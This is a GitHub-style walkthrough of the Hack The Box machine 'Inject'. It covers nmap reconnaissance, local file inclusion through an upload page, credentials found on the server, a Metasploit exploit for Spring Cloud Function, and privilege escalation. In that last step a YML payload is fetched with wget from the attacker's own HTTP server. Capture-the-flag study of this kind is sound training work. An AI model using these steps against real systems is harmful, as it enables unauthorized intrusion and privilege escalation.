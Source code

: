 <img src="https://imgur.com/qbGYyhh.png"
     style="float: left; margin-right: 10px;" />

## INTRODUCTION
This is a step-by-step walkthrough of the Hack The Box Easy Machine: Inject, I will be showcasing the steps I used to successfully it.<br/>
<br />

## ENVIRONMENTS USED
- Kali linux<br/>
- Burp suite<br/>
- Metasploit<br/>
- Wappalyzer<br/>

## WORKSPACE SETUP
Lets first create the directory we will be working in and cd into it.
```
mkdir inject && cd inject
```
<img src="https://imgur.com/pJaYMhJ.png"
     style="float: left; margin-right: 10px;" />

## RECONNAISSANCE
We start of with a complete port scan of the machine using nmap. During the scan, we discover two open ports: 
- Port 22 and Port 8080. 
- Port 22, commonly associated with SSH (Secure Shell), presents a potential avenue for remote access to the target machine. We take note of this for further investigation.<br/>

Furthermore, we focus our attention on Port 8080, as it often hosts web applications or services. By enumerating this port, we aim to uncover any vulnerabilities or <br/>
misconfigurations that may grant us unauthorized access.

We use nmap for this scan. 
```
sudo nmap -sVC -p- -T4 -Pn --open -O {target} -oN tcpfullscan
```
<img src="https://imgur.com/ukTWtoH.png"
     style="float: left; margin-right: 10px;" />

## WEBSERVER ANALYSIS
Our next step involves visiting the webserver and conducting a thorough exploration to identify its components and functionality.
<br/>
Using Wappalyzer, we discover that the webserver is running on the Bootstrap framework. This insight provides valuable information about the underlying technologies.<br/>
<br/>
During our investigation, we encounter several pages on the website. The login page, unfortunately, presents an error, preventing us from accessing its contents. Similarly, the register page is still under construction, limiting our options for interaction.<br/>
<br/>
We discover an interesting feature on the webpage the upload function.  we test its robustness by attempting to upload an HTB Inject PNG image. Our objective is to determine if any restrictions or security measures are in place to prevent unauthorized file uploads.<br/>

By systematically probing the upload functionality, we seek to exploit any weaknesses or misconfigurations that may facilitate our progression and grant us further access to the webserver's underlying systems.

<br/>     
<img src="https://imgur.com/drfEhS9.png"
     style="float: left; margin-right:10px;"  />
  
## LOCAL FILE INCLUSION
-Having successfully uploaded and viewed the image, we observe that the uploaded file's parameter is reflected in the URL. This behavior suggests a potential vulnerability known as Local File Inclusion (LFI). Exploiting this vulnerability could allow us to access files on the webserver that are not intended for public viewing.
<br/>
next step is to use Burp Suite to capture and analyze the requests we send to the webserver.

<br/>
<img src="https://imgur.com/WqErkDX.png"
     style="float: left; margin-right:10px;" />
  
## BURP SUITE EXPLOITATION
- We will start burp suite, upload the file and activate the interceptor. <br/>
- This allows us to gain control over the requests and responses exchanged between our browser and the webserver.<br/>
- Once the file upload is captured by Burp Suite, we can manipulate the GET requests to determine the location where the image was uploaded. This enables us to pinpoint potential vulnerabilities or areas of interest within the webserver's file system.<br/>
- we conduct further analysis of the files on the webserver. During this process, we uncover that the web application is built on the Spring Cloud Framework Boot. This insight equips us with valuable knowledge about the underlying technology stack, enabling us to tailor our exploitation techniques more effectively.

<br/>
<img src="https://imgur.com/x1Lkt9I.png"
     style="float: left; margin-right:10px;" />
<br/>

- We continue navigating through the directories, where we discover a directory named 'Frank' that contains a password and username attributed to 'phil.'
- can navigate through the directories <br/>
- We managed to find a password and username belonging to pbil in the Frank directory. <br/> 
- This could be useful as we move along with our enumeration. <br/>

<img src="https://imgur.com/xBK3fHi.png"
     style="float: left; margin-right:10px" />     
<br/>

## EXPLOITING THE SPRING CLOUD FRAMEWORK WITH METASPLOIT
-After conducting in-depth research on the framework, we discover a known as the 'spring cloud function.' This vulnerability presents us with an opportunity to exploit the system further. For more details on this vulnerability, you can refer to the Rapid7 blog post at link. <br/>
```
https://www.rapid7.com/blog/post/2022/04/01/metasploit-weekly-wrap-up-155/
```
To exploit this vulnerability, we use Metasploit to exploit the identified vulnerability in the Spring Cloud Framework <br/>

Taking advantage of Metasploit, we launch the exploit specifically designed to target the identified vulnerability in the Spring Cloud Framework. By executing this exploit, we gain remote access to the server, providing us with a solid foothold to proceed with further exploration and privilege escalation.<br/>

With this access, we continue our investigation by searching for the user flag. <br/>

<br/>

<img src="https://imgur.com/3UpHmN0.png" style="float: left; margin-right:10px;" />

## USER FLAG
- Navigating through the directories, we locate a file named "user.txt"; however, our current privileges prevent us from directly accessing its contents.
- To overcome this limitation, we revert to the credentials we discovered during our earlier Burp Suite enumeration.
- Switching to the "phil" user using the acquired password, we now have sufficient privileges to read the user flag.

<img src="https://imgur.com/uoielW3.png" style="float: left; margin-right:10px;" />

## ROOT FLAG
To gain root access on the server, we need to elevate our privileges.

- Returning to the root folder, the top-level directory of the server's file system, we navigate to the designated location for uploading files: **/opt/automation/tasks**.
- Here, we create a YML file and upload it to the server. This uploaded script will play a crucial role in increasing our privileges.
<br/>
<img src="https://imgur.com/rZUFtC4.png"  style="float: left; margin-right:10px;" />
<br/>

To upload the file using the shell we created using metasploit.
- we first set up a server on our local machine by running the following command:
```
python -m http.server 80
```

Returning to the shell session on the compromised server, we execute the following command to download the YML script from our local machine:

```
wget http://{own ip}/filename.yml
```

Once the file is successfully uploaded, we validate our escalated privileges. We execute the commands bash -p followed by whoami to verify if we have attained root privileges.

Upon confirmation of our elevated privileges, we navigate to the root directory and proceed to read the contents of the root

<img src="https://imgur.com/OAXJPMc.png"
        style="float: left; margin-right:10px;" />

## CONCLUSION

Thank you for taking the time to read my walkthrough. I value your expertise and welcome any hints or advice you may have regarding my approach or any missed opportunities. 

Your input is highly appreciated as it allows me to continuously learn and enhance my skills. Feel free to share your insights and recommendations, as they will contribute to my growth as a cybersecurity professional.
